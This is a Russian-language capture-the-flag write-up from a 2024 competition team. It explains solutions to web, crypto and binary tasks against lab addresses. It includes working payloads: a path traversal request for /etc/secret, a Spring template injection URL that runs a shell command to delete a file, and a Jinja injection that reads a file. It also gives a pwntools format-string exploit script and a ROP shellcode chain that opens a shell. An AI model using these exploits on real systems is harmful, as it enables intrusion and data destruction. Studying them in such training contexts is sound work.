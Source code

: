 # NTO-2024-xls-team

# Task solves

## web1

Сначала открываем инструменты разработчика, смотрим и находим строку:

`<a href="/download?file_type=file1.txt">20</a>`

Переходим по ссылке `http://192.168.12.10:5001/download?file_type=file1.txt`
и получаем *hint*:

`Hint_1 maybe in etc/secret ???`

Понимаем, что скорее всего нужно применить `Path Fuzzing`.
Ищем, находим подобные уязвимости и делаем запрос:

`http://192.168.12.10:5001/download?file_type=/../../etc/secret`

Получаем `flag` из файла secret: nto{P6t9_T77v6RsA1}

## web 2

Смотрим иходный код, понимаем, что всё зависит от файла `password.txt` и его нужно удалить/изменить, чтобы `/login` нас впустил. После нескольких часов гуглерства находим статью: `https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability`. Используем уязвимость: `http://192.168.12.13:8090//doc/__$%7BT(java.lang.Runtime).getRuntime().exec(%22rm%20password.txt%22)%7D__::.x.`.
После вводим: `http://192.168.12.13:8090/login?password=password`, радуемся, что получили `flag`.

`flag`: nto{abobovichasdfas} 

## web3

Пробуем разные способы обойти прокси, получаем: "http://192.168.12.11:8001//flag?name=a". Пробуем разные SSTI пейлоады, узнаем, что это jinja, собираем пейлоад: "http://192.168.12.11:8001//flag?name={{request.__init__.__globals__.__builtins__[%22open%22](%22./flag.txt%22).read()}}"

`flag`: nto{Ht1P_sM088Lin6_88Ti} 


## crypto2

По исходному коду понимаем, что нужно восстановить тайное число FLAG (закодированный текст) по известным эллиптической кривой E в кольце целых чисел по модулю p (простое число), генератору G и результату P = G * FLAG. Иными словами, задача на дискретное логарифмирование. В общем случае задача слишком сложна, но в задаче все параметры геренируются случайно, а значит можно подобрать такую кривую, порядок которой будет иметь достаточно небольшие делители и, переведя задачу в подгруппу с таким порядком, получить (перебором) FLAG по некоему модулю. Получив достаточно таких результатов по разным модулям, восстановим FLAG через китайскую теорему об остатках.

Полноценный скрипт решения (использует sagemath и PyCryptodome) [прилагается](./crypto2.py)

`flag`: nto{50mb0dy_45k3d_m3_f0r_d1scr3t3_l0g_2}


## pwn1

Используем Ghidra для декомпиляции программы, видим format string vulnerability. Генерируем пейлоад, меняющий функцию exit в plt на функцию win, при помощи pwntools. Читем флаг: `cat flag`
```Python
from pwn import *

context.log_level = 'debug'
context.bits = 64


addr = 0x404018
value = 0x401156

payload = fmtstr_payload(6, {addr : value})

# con = process("./main")
con = remote("192.168.12.13", 1923)

con.send(payload + b"\n")

con.interactive()
```

`flag`: nto{easy_formt_string}

## Pwn 2

Дизассемблируем файл с помощью Ghidra. Программа читает 500 байт на стек. Можно переписать адрес возврата.  
![image](https://github.com/maximxlss/nto-2024-xls-team/assets/91249047/ba6292fd-b10e-434c-aeba-5fe93ccf37b3)  
Также есть строка `"/bin/bash"`  
![image](https://github.com/maximxlss/nto-2024-xls-team/assets/91249047/ba89f41d-153c-423b-b065-58a2ef599b49)  
И rwx память после функции (с адреса `0x41000` до `0x42000`), большая часть которой - байты `0x00`.
`0x00, 0x00` дизассемблируется как `add [rax], al`. Также по адресу `0x41013` есть гаджет `add byte ptr [rax], al; syscall; ret` и по адресу `0x41018` - `pop rax; ret`.

Переполнив адрес возврата, поместим значение `0x410c3` в регистр rax, затем вызовем гаджет `add byte ptr [rax], al; syscall; ret` (syscall не нужен, но он не мешает) и по адресу `0x410c3` запишем инструкцию `ret`. До неё идёт много байтов `0x00`, которые означают инструкцию `add [rax], al`.

С помощью этого можно модифицировать некоторые байты в памяти и составить необходимый ROP-гаджет. Для этого я написал `genpb.py` и `gennpb.py`. Первый рассчитвает количество раз, которое надо вызвать `add [rax], al` чтобы преобразовать байт из нуля в нужное число (это не всегда возможно, в этом случае возвращается `-1`).

Второй скрипт делает аналогичные операции для 2-х файлов и печатает результаты в формате, подходящем для вставки в Python-код. Аргументы командной строки: `./gennpb.py <target_bytes> <start_addr> <curr_bytes>`.  
`target_bytes` - требуемая последовательность байт (файл) 
`start_addr` - последний байт адреса, с которого начинается запись  
`curr_bytes` - Текущее состояние байт (файл), можно указать `Nulls` если это байты `0x00`.

Напишем код на ассемблере, который загружает значения со стека в регистры rax, rdi, rsi, rdx и переходит по адресу rax:

`sc_shell.nasm`:  
```nasm
BITS 64

pop rax
pop rdi
pop rsi
pop rdx
nop
jmp rax
```

`nop` нужен для того, чтобы было возможно записать данные в память выше описанным способом, а инструкцию `syscall` записать этим способом невозможно, поэтому используется jmp.

При этом инициализируем rax адресом `0x41018`, rdi - адресом строки `"/bin/bash"`, rsi и rdx - нулём. Затем программа перейдёт на `pop rax`, где в rax будет помещено значение 59 (сискол execve) и будет возврат на инструкцию syscall.

Эксплоит находится в `splo.py` (требуется `pwntools`)  
Чаще всего требуется запустить много раз, так как с достаточно большим шансом в используемой rwx-памяти оказывается байт, не равный нулю, из-за этого инструкции записываются некорректно и происходит segfault.

Получаем шелл и читаем `/flag`.

`flag`: `nto{sropsropsroplazy}`
